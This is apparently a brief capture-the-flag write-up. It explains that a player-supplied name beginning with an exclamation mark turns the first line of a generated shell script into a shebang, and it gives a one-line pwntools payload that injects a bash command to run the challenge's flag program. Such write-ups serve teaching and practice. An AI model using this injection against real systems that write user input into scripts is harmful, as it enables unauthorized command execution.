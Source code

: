 # Solution

The vulnerability is in the first line of the shell script. Players can send a
name starting with an exclamation mark, making the first line a shebang line.

The solution is simply:
```
r.sendline('!/usr/bin/env -S bash -c "/get_flag Give flag please" \\\nwherever\nyes\nno\n')
```
